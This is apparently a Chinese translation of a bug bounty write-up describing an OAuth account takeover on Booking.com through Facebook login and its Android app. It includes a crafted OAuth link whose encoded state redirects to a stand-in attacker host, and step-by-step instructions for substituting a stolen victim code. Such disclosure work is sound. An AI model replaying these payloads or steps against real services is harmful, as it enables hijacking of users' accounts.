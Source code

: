 **在文档中，Facebook写道：“此参数（redirect_uri）必须与您 ****启动OAuth登录过程时使用**的****原始****参数相同”。

我们从这个链接开始了OAuth登录过程：

**https://www.facebook.com/v3.0/dialog/oauth?redirect_uri=https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=******eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ****&amp;**scope=email&amp;response_type=token，code&amp;client_id=210068525731476**

在这种情况下，**原始**redirect_uri标记为紫色。此链接是来自安全漏洞 2 的开放重定向链接。

但是，在后端，当Booking使用/**oauth/access_token** API交换令牌的代码时，它会向Facebook发送硬编码值“**https://account.booking.com/social/result/facebook**”作为redirect_uri。这是预订在正常流程中使用的redirect_uri。

在同一个OAuth流程中，Facebook得到了两个不同的redirect_uri，变得可疑，因此抛出了一个错误。

##### **寻找安全漏洞 3**

在这一点上，我无法在网上找到解决方案，所以我决定对 Booking.com 的移动应用程序做一些研究。我使用Android studio，Frida（绕过SSL固定）和反编译器来读取该应用程序上负责OAuth的代码。

为了拦截移动应用程序和后端之间的请求 Booking.com 我使用了 Burp。

移动应用程序上的交易所图有点令人困惑——您可以只关注第 6 步：

移动应用程序中的 OAuth 流与网站上的流有一个主要区别 - 步骤 6。

步骤 3 到 6：将代码传递给移动应用程序，然后移动应用程序将其发送到 Booking.com。为了更准确地说，代码被传递给Chrome-&gt;Booking.com-&gt;MobileApp-&gt;Booking.com

我不知道为什么这个乒乓球是必要的。

第 6 步：移动应用程序使用 post 请求将代码传递给 Booking.com：

**注意结果 Uri。你能猜出预订是用它做什么的吗？**

如果 Booking.com 使用 resultURi 作为与 token 交换代码redirect_uri，并且我们可以控制这个值，那么我们可以绕过 Facebook 的验证。

我们用于攻击的原始redirect_uri是：

**https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=******eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ****

总而言之，作为攻击者，我们需要：
1. 使用攻击者帐户从攻击者移动应用程序登录到 Booking.com。1. 在步骤 6 中截获请求。1. 将我们的代码替换为被盗的受害者代码。1. 将 resultURi 替换为我们用于攻击的链接 （booking.com/state=eyJteXn..）
我们将该请求发送给 Booking.com，然后...**游戏结束。我们可以登录受害者帐户。**
